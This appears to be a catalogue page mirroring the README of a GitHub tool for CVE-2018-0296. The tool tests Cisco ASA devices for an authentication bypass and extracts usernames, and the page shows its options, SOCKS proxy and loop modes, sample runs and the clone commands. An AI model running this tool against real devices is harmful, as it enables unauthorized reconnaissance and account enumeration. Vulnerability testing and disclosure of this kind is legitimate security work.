 # CVE-2018-0296

Test CVE-2018-0296 and extract usernames

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/milo2012](https://github.com/milo2012) |
| Url      | [https://github.com/milo2012/CVE-2018-0296](https://github.com/milo2012/CVE-2018-0296)                                               |
| Stars    | 104                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2018-0296
Test CVE-2018-0296 and extract usernames from Cisco ASA.  
  
Refer to https://sekurak.pl/opis-bledu-cve-2018-0296-ominiecie-uwierzytelnienia-w-webinterfejsie-cisco-asa/ for more technical details.  
  
#Help Menu
```
$ ./CVE-2018-0296  -h
Options:

  -h, --help   display help information
  -u, --url    Url of target device
  -i           IP of Socks Proxy
  -p           Port of Socks Proxy
  -t, --time   Number of seconds to sleep between loop
      --loop   Loop mode
```
  
#Usage Guide  
```
$ ./CVE-2018-0296 -u https://x.x.x.x:443
[*] Checking: https://x.x.x.x:443
[+] https://x.x.x.x:443 [Cisco VPN]
[+] https://x.x.x.x:443 [Vulnerable]
[*] Usernames found
testuser1

$ ./CVE-2018-0296 -u https://www.yahoo.com:443
[*] Checking: https://www.yahoo.com
[+] https://www.yahoo.com [NOT Cisco VPN]

$ ./CVE-2018-0296 -u https://x.x.x.x:443
[*] Checking: https://x.x.x.x
[+] https://x.x.x.x [Cisco VPN]
[+] https://x.x.x.x [Vulnerable]
[*] No usernames found
  
$ ./CVE-2018-0296  -i 127.0.0.1 -p 10000 --loop 10 -u https://x.x.x.x:443
[*] Checking: https://x.x.x.x:443
[+] https://x.x.x.x:443 [Cisco VPN]
[+] https://x.x.x.x:443 [Vulnerable]
[*] Usernames found
testuser1
```



## Get the content

```
git clone https://github.com/milo2012/CVE-2018-0296
cd CVE-2018-0296
```

{% embed url="https://github.com/milo2012/CVE-2018-0296" %}

<figure><img src="https://avatars.githubusercontent.com/u/905335?v=4" alt=""><figcaption><p>milo2012</p></figcaption></figure>
